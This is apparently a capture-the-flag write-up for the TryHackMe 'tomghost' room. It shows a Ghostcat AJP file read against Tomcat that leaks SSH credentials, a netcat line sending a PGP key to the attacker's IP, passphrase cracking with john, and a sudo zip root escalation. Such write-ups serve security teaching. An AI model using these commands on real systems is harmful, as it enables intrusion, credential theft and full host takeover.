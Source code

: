 # Tom Ghost Cat
[Play](https://tryhackme.com/room/tomghost)

## Recon
```
❯ nmap -sC -sV -A -T4 10.10.218.100
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 21:58 EST
Nmap scan report for 10.10.218.100
Host is up (0.18s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.05 seconds
```

This machine shows no port on `80`, which explains the reason why Firefox was shouting at me. I looked up for `AJP` and `Tomcat` and all such combinations. The exploit seems interesting to look a bit deeper into. [This](https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp) explains the innerworkings of this service and what we could expect going forward. This [APJ 13 Vulnerability](https://medium.com/@prem2/ghostcat-vulnerability-cve-2020-1938-ajp-lfi-apache-tomcat-server-vulnerability-9f57330e3eb1) explains how `WEB-INF/web.xml` is a good starting point. 

Looking up more, we have this tool, called [ajshooter](https://github.com/00theway/Ghostcat-CNVD-2020-10487). We see this command plays well with the above explaination. `python3 ajpShooter.py http://10.10.218.100:8080 8009 /WEB-INF/web.xml read`


We get:
```
❯ python3 ajpshooter.py http://10.10.218.100:8080 8009 /WEB-INF/web.xml read

       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    

[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1261-1583902632000"
[<] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1261

<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```

With no other port open, its safe to say that those are ssh credentials :D

## Foothold

```
❯ ssh skyfuck@10.10.218.100
The authenticity of host '10.10.218.100 (10.10.218.100)' can't be established.
ECDSA key fingerprint is SHA256:hNxvmz+AG4q06z8p74FfXZldHr0HJsaa1FBXSoTlnss.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.218.100' (ECDSA) to the list of known hosts.
skyfuck@10.10.218.100's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

```
skyfuck@ubuntu:/home/merlin$ cat user.txt 
THM{stonks}
```

## PrivEsc
Using the commands on the machine `skyfuck@ubuntu:~$ cat tryhackme.asc | netcat 10.8.150.214 6969` and `❯ nc -lnvp 6969 > tryhackme.asc` on ours, we transfer the files for further inspection.

We do the same for `credentials.pgp`. It looks like we need some passphrase before doing this, so lets do `gpg2john` and then run `john`.


```
❯ gpg2john tryhackme.asc > hash

File tryhackme.asc
❯ cat hash
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
❯ john --format=gpg --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
1g 0:00:00:00 DONE (2021-03-04 23:51) 1.694g/s 1816p/s 1816c/s 1816C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Let's import, this time giving the passphrase
```
❯ gpg --import tryhackme.asc
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```

and now,
```
❯ gpg --decrypt cred.pgp
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

We are done with the lateral movement!


Now, onto `merlin`.
```
❯ ssh merlin@10.10.218.100
merlin@10.10.218.100's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Tue Mar 10 22:56:49 2020 from 192.168.85.1
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
merlin@ubuntu:~$ 
```

gtfobins makes it too easy lmao
```
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# ls
user.txt
# whoami
root
```

we are done!
```
# cd /root
# ls
root.txt  ufw
# cat root.txt
THM{pwned!}
```
